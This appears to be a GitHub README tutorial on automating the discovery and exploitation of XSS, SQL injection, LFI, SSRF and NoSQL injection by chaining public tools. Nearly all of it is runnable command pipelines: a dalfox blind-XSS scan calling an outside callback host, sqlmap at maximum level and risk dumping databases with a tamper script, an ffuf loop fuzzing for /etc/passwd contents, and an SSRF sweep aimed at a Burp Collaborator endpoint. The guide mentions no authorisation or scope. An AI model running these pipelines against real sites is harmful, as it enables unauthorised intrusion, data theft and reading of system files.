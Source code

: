 # AutomationGuide
Learn how to automate XSS, SSRF, LFI, SQLI, NoSQLi

## Tools needed for automation

* <a href="https://github.com/projectdiscovery/subfinder">Subfinder</a>
* <a href="https://github.com/projectdiscovery/httpx">httpx</a>
* <a href="https://github.com/tomnomnom/waybackurls">waybackurls</a>
* <a href="https://github.com/sqlmapproject/sqlmap">sqlmap</a>
* <a href="https://github.com/hahwul/dalfox">dalfox</a>
* <a href="https://github.com/tomnomnom/qsreplace">qsreplace</a>
* <a href="https://github.com/ffuf/ffuf">ffuf</a>
* <a href="https://github.com/Charlie-belmer/nosqli">nosqli</a>
* <a href="https://github.com/tomnomnom/gf">gf</a>
* <a href="https://github.com/1ndianl33t/Gf-Patterns">Gf_Patterns</a>

## XSS automation 

You can automate XSS by the following steps:

**STEP 1**<br>

*Find the subdomains of the target:*

```
$ subfinder -d example.com | tee -a domains.txt
```
`-d` is to specify the target domain and `tee -a domains.txt` will save the output to a file.

**STEP 2**<br>
*Find the domains that are alive:*
```
$ cat domains.txt | httpx | tee urls.alive 
```
`cat domains.txt` will open the file and `httpx` will find the domains that are alive and `tee urls.alive` will save the output to a file.

**STEP 3**<br>
*Fetch known URLs from the Wayback Machine:*
```
$ cat urls.alive | waybackurls | tee wayback.urls
```
`cat urls.alive` will open the file and `waybackurls` will fetch the URLs from Wayback Machine and `tee wayback.urls` will save the output to a file. 

**STEP 4**<br>
*Find the XSS pattern URLs from wayback.urls:*
```
$ gf xss wayback.urls >> urls.xss
```
`gf xss` is to specify that you have to find the URLs that have XSS patterns from `wayback.urls` file and `>> urls.xss` will save the output to a file.

**STEP 5**<br>
*Find XSS using dalfox:*
```
$ dalfox -b hahwul.xss.ht file urls.xss
```
`-b` is to specify the blind XSS payload and `file urls.xss` is the file that contains XSS pattern URLs. 

## SQL injection automation
You can automate SQL injection by the following steps:

* NOTE: The steps are same as XSS upto STEP 3 

**STEP 4**<br>
*Find the SQLI pattern URLs from wayback.urls:*
```
$ gf sqli wayback.urls >> urls.sqli
```
`gf sqli` is to specify that you have to find the URLs that have SQLI patterns from `wayback.urls` file and `>> urls.sqli` will save the output to a file.

**STEP 5**<br>
*Find SQL injection using sqlmap*
```
$ sqlmap -m urls.sqli --level 5 --risk 3 --batch --dbs --tamper=between 
```
`-m` is to specify the multiple targets file which is `urls.sqli`, `--level 5` will increase the level of scanning and exploitation, `--risk 3` allows the type of payloads used by the tool. By default, it uses value 1 and can be configured up to `level 3`. Level 3, being the `maximum`, includes some `heavy SQL queries`. The level defines the number of `checks/payload` to be performed, `--batch` will automatically answer the Y/N questions, `--dbs` is to find all databases if the vulnerability exists and `--tamper` is to add a script.

## LFI automation
You scan automate LFI by this single command:
```
$ subfinder -d example.com | waybackurls | gf lfi | qsreplace FUZZ | while read url ; do ffuf -u $url -mr "root:x" -w payloads_wordlist.txt ; done
```
`subfinder -d example.com` will find the subdomains, `waybackurls` will fetch the URLs from wayback machine, `gf lfi` will find the lfi pattern URLs, `qsreplace` will replace the value after `=` to `FUZZ`, `while read url` is a while loop that will read the URLs and `ffuf -u $url -mr "root:x" -w payloads_wordlist.txt` will find the LFI vulnerability.    

## SSRF automation
You can automate SSRF by the following steps:

* NOTE: The steps are same as XSS upto STEP 3 

**STEP 4**<br>
*Find the SSRF pattern URLs from wayback.urls:*
```
$ gf ssrf wayback.urls >> urls.ssrf
```
`gf ssrf` is to specify that you have to find the URLs that have SSRF patterns from `wayback.urls` file and `>> urls.ssrf` will save the output to a file.

**STEP 5**<br>
*Replace the values after `=` to burp collaborator payload:*
```
$ cat urls.ssrf | qsreplace Burp collaborator payload >> ssrf.urls_ffuf
```

**STEP 6**
*Find ssrf using ffuf:*
```
$ ffuf -c -w ssrf.urls_ffuf -u FUZZ
```
`-w` is to specify the SSRF URLs and `-u` is to specify the URL.

Now check your burp collaborator if there is any execution.

## NoSQL injection automation
You can automate the NoSQL injection using nosqli tool:

*For example you found a URL like - `http://localhost:4000/user/lookup?=&username=test` so lets automate the process of exploitation*   
```
$ nosqli scan -t http://localhost:4000/user/lookup?username=test
```
`scan` is to start scanning on the target and `-t` is to specify the target. 

## Special thanks

A big thanks to all the developers who developed these amazing tools!




